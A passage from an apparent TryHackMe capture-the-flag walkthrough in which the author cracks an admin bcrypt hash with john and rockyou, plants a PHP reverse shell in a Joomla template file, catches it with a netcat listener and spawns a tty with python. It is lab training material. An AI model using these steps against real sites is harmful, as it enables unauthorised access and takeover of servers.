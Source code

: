 The “Super Duper User": `admin`

I saved the password hash and cracked it using `john` and `rockyou` wordlist.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/HA_Joker_CTF/files]
└─$ john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt            
Created directory: /home/user/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcd1234         (?)
1g 0:00:00:11 DONE (2021-10-12 10:48) 0.08680g/s 90.62p/s 90.62c/s 90.62C/s bullshit..piolin
Use the "--show" option to display all of the cracked passwords reliably
Session completed

~~~

Admin's password: `abcd1234`

# Reverse Shell

Now we can login to admin panel and upload a reverse shell. Navigate to `Configuration > Templates > Templates > Beez3 Details and Files` and choose `error.php` and replace it with a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Don't forget to change the IP in the code to yours.

Now start a listener and save the code and the navigate to `http://$IP:8080/templates/beez3/error.php` to call the shell and now we have a shell. I spawnd a tty shell using a simple python code.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/HA_Joker_CTF/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.65] from (UNKNOWN) [10.10.1.109] 36474
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:59:06 up 27 min,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
$ whoami
www-data
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$
~~~

User: `www-data`
